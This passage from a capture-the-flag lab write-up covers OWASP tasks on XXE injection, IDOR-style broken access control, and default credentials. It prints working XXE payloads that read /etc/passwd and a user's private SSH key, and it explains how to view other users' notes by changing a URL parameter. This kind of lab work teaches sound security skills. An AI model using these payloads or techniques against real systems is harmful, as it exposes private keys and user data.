 I used a modified payload from Task 15 to display my name:
```
<!DOCTYPE replace [<!ENTITY name "Mark"> ]>
 <userInfo>
  <firstName>&name;</firstName>
 </userInfo>
 ```

* See if you can read the /etc/passwd

We can use the payload from Task 15 as is:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

* What is the name of the user in /etc/passwd

The user with id 1000 is the one they're looking for.

* Where is falcon's SSH key located?

We can modify the previous payload slightly to read a different file where we think the SSH key is located:
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

* What are the first 18 characters for falcon's private key

We already successfully read the private key in the previous answer so we just copy and paste the first 18 characters.

## Day 5 - Broken Access Control
### Task 18
*Visit `http://MACHINE_IP` to answer the following:*
* Look at other users notes. What is the flag?

After logging in, the URL changes to `http://MACHINE_IP/note.php?note=1`. We can change the note parameter to different numbers to access other users' notes.

## Day 6 - Security Misconfiguration
### Task 19
*Visit `http://MACHINE_IP` to answer the following:*
* Hack into the webapp, and find the flag!

This challenge focuses on default credentials. We can search the web for the source code for this web app and see if there is a default user account that hasn't been deleted or whose password hasn't been changed.

We find the source on [Github](https://github.com/NinjaJc01/PensiveNotes). The documentation gives us the default user name and password.
